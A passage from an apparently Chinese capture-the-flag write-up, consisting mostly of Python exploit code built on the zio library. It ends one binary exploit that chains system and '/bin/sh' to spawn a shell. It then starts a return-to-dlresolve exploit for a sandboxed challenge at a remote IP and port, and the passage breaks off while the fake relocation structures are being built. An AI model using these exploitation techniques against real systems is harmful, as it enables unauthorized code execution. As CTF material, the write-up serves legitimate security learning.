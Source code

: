 ```
    addr = l64(rol(fake_rsp^cookie))+l64(rol(pop_rdi_ret^cookie))
    print HEX(addr)
    io.gdb_hint()
    edit(io, 1, 0, "", addr, "")
 
    io.read_until('&gt;&gt;')
    payload = '5;'+'a'*6
 
    payload += l64(binsh)+l64(system)+l64(main)
    io.writeline(payload)
 
    #io.gdb_hint()
    interact(io)
 
exp(target)
```

**<br>**

**Pwn-sandbox**

沙箱做了如下限制：对外的调用都通过jmp ds:dl_resolve出去，所以采用return-to-dlresolve进行利用。

脚本：

```
#encoding:utf-8
import struct
from threading import Thread
from zio import *
 
 
target = './sandbox ./vul'
#target = './vul'
target = ('58.213.63.30', 4004)
 
def interact(io):
    def run_recv():
        while True:
            try:
                output = io.read_until_timeout(timeout=1)
                # print output
            except:
                return
 
    t1 = Thread(target=run_recv)
    t1.start()
    while True:
        d = raw_input()
        if d != '':
            io.writeline(d)
 
def write_16byte(io, addr, value):
    io.write('a'*0x10+l64(addr+0x10)+l64(0x400582))
    io.write(value+l64(0x601f00)+l64(0x400582))
 
fake_relro = ''
fake_sym = ''
 
#link_map_addr = 0x00007ffff7ffe1c8 #close aslr.(if has aslr, need leak)
 
#link_map_addr = 0x7ffff7ffe168
def generate_fake_relro(r_offset, r_sym):
    return l64(r_offset) + l32(7)+l32(r_sym)+ l64(0)
 
```